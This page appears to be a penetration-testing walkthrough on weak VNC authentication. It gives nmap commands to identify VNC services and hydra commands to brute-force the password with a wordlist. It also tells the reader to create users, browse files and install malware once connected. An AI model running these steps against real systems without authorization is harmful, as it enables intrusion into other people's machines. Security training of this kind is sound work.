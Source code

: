 VNC Weak Authentication

Theory & Background
Virtual Network Computing (VNC) provides a graphical desktop sharing system. A severe misconfiguration is running VNC without a password or with a weak, easily guessable password. Furthermore, older versions often transmit passwords and data in plaintext, making them susceptible to sniffing.

Step-by-Step Walkthrough
1. Identification
bash
nmap -p5900 -sV --script vnc-info,vnc-title <target_ip>
Expected Result: Nmap will identify the VNC service (e.g., RealVNC, TightVNC) and may even retrieve the desktop title, indicating no authentication.

2. Exploitation
bash
# 1. Connect using a VNC client (like xtightvncviewer)
xtightvncviewer <target_ip>:5900

# If it connects without a prompt, you have full control.
# If it prompts for a password, you need to brute-force it.

# 2. Brute-forcing with hydra
# Note: VNC brute-forcing is slow. The password is often weak.
hydra -P /usr/share/wordlists/rockyou.txt <target_ip> vnc -t 4

# 3. Once connected, you have a live graphical session.
# You can interact with the desktop, open terminals, and install malware.
What to do: Interact with the desktop as if you were physically at the machine. Create new users, open command prompts, and browse files.


